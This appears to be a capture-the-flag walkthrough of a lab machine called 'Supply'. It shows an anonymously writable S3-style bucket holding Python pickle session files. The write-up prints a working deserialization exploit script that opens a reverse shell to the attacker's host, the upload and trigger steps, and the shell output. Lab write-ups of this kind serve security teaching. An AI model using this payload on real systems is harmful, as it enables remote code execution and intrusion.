

## Supply

```bash
$ nmap -sS -sV -Pn -p- -T5 -n 10.129.173.190

Nmap scan report for 10.129.173.190
Host is up (0.022s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

For this challenge, we were presented a login page, and a feature to sign in as guest on the web application:



By browsing to the home page of the web application, we noticed some assets were not loading as it was using a custom domain name:

```bash
$ curl http://10.129.173.190/ -s | grep 's3.' -C3
  <title>Project Management Portal</title>
  
  
  <link rel='stylesheet' href='http://s3.supply.htb/assets/css/bootstrap.min.css'>
  <script src="http://s3.supply.htb/assets/js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js"></script>
<style>
body {
  background-color: black;
```

We checked what was hosted on the same machine but for the assets' virtual host `s3.supply.htb`:

```bash
$ curl http://10.129.173.190 -H "Host: s3.supply.htb" -v
*   Trying 10.129.173.190:80...
* Connected to 10.129.173.190 (10.129.173.190) port 80 (#0)
> GET / HTTP/1.1
> Host: s3.supply.htb
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 404 
< Server: hypercorn-h11
< content-type: text/html; charset=utf-8
< content-length: 21
[...]
< 
* Connection #0 to host 10.129.173.190 left intact
{"status": "running"}
```

We saw it was a self-hosted AWS platform as it was for the Cloud challenge `Theta`. We then listed all the enabled features:

```bash
$ curl http://10.129.173.190/health -H "Host: s3.supply.htb" -v
*   Trying 10.129.173.190:80...
* Connected to 10.129.173.190 (10.129.173.190) port 80 (#0)
> GET /health HTTP/1.1
> Host: s3.supply.htb
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Server: hypercorn-h11
[...]
< 
* Connection #0 to host 10.129.173.190 left intact
{"services": {"s3": "running"}, "features": {"persistence": "initialized", "initScripts": "initialized"}}
```

We then checked if an anonymous access was granted to the `s3` bucket:

To do so, we added a line to our `/etc/hosts` file for the virtual host `s3.supply.htb` and we used the `AWS` cli:

```bash
$ aws configure

AWS Access Key ID [None]: a
AWS Secret Access Key [None]: a
Default region name [None]: a
Default output format [None]: json

$ aws s3 --endpoint-url http://s3.supply.htb ls

2021-07-26 23:47:41 assets
```

Once we noticed we could list the hosted files, we downloaded all the files by using the `sync` command:

```bash
$ aws s3 --endpoint-url http://s3.supply.htb sync s3://assets .
download: s3://assets/js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js to js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js
download: s3://assets/vendor/autoload.php to vendor/autoload.php  
[...]
download: s3://assets/vendor/composer/platform_check.php to vendor/composer/platform_check.php
download: s3://assets/vendor/composer/autoload_psr4.php to vendor/composer/autoload_psr4.php
download: s3://assets/css/bootstrap.min.css to css/bootstrap.min.css 
download: s3://assets/vendor/composer/autoload_static.php to vendor/composer/autoload_static.php
download: s3://assets/vendor/composer/installed.json to vendor/composer/installed.json
[...]
```

Apart from the web assets (minified css and javascript files), we saw nothing that was used by the web application.

By playing a bit with the login feature of the web application, we noticed a new folder was created on the bucket and that sessions were stored on the `s3` bucket:

```bash
$ aws s3 --endpoint-url http://s3.supply.htb ls assets/
                           PRE css/
                           PRE js/
                           PRE sessions/
                           PRE vendor/
                           
$ aws s3 --endpoint-url http://s3.supply.htb sync s3://assets .
download: s3://assets/sessions/c32d3081-d9ee-4c0b-9f05-fe402cbf1138 to sessions/c32d3081-d9ee-4c0b-9f05-fe402cbf1138
```

```bash
$ xxd c32d3081-d9ee-4c0b-9f05-fe402cbf1138
00000000: 8004 9525 0000 0000 0000 007d 9428 8c08  ...%.......}.(..
00000010: 7573 6572 6e61 6d65 948c 0567 7565 7374  username...guest
00000020: 948c 0870 6173 7377 6f72 6494 6802 752e  ...password.h.u.
```

The sessions content looked-like serialized data. We then tried to decode them using [pickletools](https://docs.python.org/3/library/pickletools.html):

```bash
$ python3 -m pickletools c32d3081-d9ee-4c0b-9f05-fe402cbf1138 
    0: \x80 PROTO      4
    2: \x95 FRAME      37
   11: }    EMPTY_DICT
   12: \x94 MEMOIZE    (as 0)
   13: (    MARK
   14: \x8c     SHORT_BINUNICODE 'username'
   24: \x94     MEMOIZE    (as 1)
   25: \x8c     SHORT_BINUNICODE 'guest'
   32: \x94     MEMOIZE    (as 2)
   33: \x8c     SHORT_BINUNICODE 'password'
   43: \x94     MEMOIZE    (as 3)
   44: h        BINGET     2
   46: u        SETITEMS   (MARK at 13)
   47: .    STOP
highest protocol among opcodes = 4
```

From there, we replaced the serialized data with a reduced function that would execute a reverse shell during the deserialization process:

```bash
$ cat forge_session.py

import pickle
import base64
import os

class RevShell:
    def __reduce__(self):
        cmd = ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.65", 9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")')
        return exec, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dump(RevShell(), protocol=2, file=open('fd9db610-e957-4a8e-a877-a1bae508805c', 'wb'))
```

Then, we uploaded the new session file to the bucket:

```bash
$ python3 forge_session.py 

$ aws s3 --endpoint-url http://s3.supply.htb cp fd9db610-e957-4a8e-a877-a1bae508805c s3://assets/sessions/fd9db610-e957-4a8e-a877-a1bae508805c
upload: ./fd9db610-e957-4a8e-a877-a1bae508805c to s3://assets/sessions/fd9db610-e957-4a8e-a877-a1bae508805c
```

Finally, we triggered the Python deserialize code by requesting the `/home` page of the web application and by specifying our malicious session id:

```bash
GET /home HTTP/1.1
Host: 10.129.173.190
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=fd9db610-e957-4a8e-a877-a1bae508805c
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


HTTP/1.1 302 FOUND
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 208
Location: http://10.129.173.190/
Connection: close
Content-Type: text/html; charset=utf-8

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>. If not click the link.
```

Once the session was deserialized, we received a connect-back from the Python reverse shell:

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.173.190] 38980
www-data@supply:/$ id     	
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@supply:/$ cat /opt/flag.txt
cat /opt/flag.txt
HTB{0p3n_aws_s3ssion_f1l3_st0rag3==rc3_pwn4g3}
```

